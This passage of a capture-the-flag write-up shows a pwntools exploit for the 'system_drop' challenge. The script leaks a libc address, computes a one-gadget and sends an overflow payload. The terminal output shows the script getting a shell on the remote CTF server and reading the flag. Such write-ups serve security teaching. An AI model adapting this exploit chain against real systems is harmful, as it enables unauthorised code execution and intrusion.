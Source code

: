 ```
print('We got result')
print(result)
alarm_unproc = result[:8]
alarm_libc = u64(alarm_unproc)
print(hex(alarm_libc))
#The library is libc6_2.27-3ubuntu1.4_amd64

libc_base = alarm_libc - libc.symbols['alarm']
onegadget = libc_base + onegadget_offset

payload = padding

payload += p64(onegadget) + b'\x00' * 0x50

target.sendline(payload)

target.interactive()

```
And the result we should see in the terminal is:

```
ubuntu@ubuntu1804:~/CTF/HTBApocalypse$ python3 system_drop_payload.py  NOPTRACE
[+] Opening connection to 139.59.168.47 on port 31111: Done
[*] '/home/ubuntu/CTF/HTBApocalypse/system_drop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/ubuntu/CTF/HTBApocalypse/system_drop_libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
We got result
b'\x10\xa6\xeb\r\x14\x7f\x00\x00@a\xee\r\x14\x7f\x00\x00\x00'
0x7f140deba610
about to send a payload b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa2T\xe2\r\x14\x7f\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
we sent another payload
[*] Switching to interactive mode
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00$ whoami
ctf
$ ls
flag.txt  system_drop
$ cat flag.txt
CHTB{n0_0utput_n0_pr0bl3m_w1th_sr0p}

```
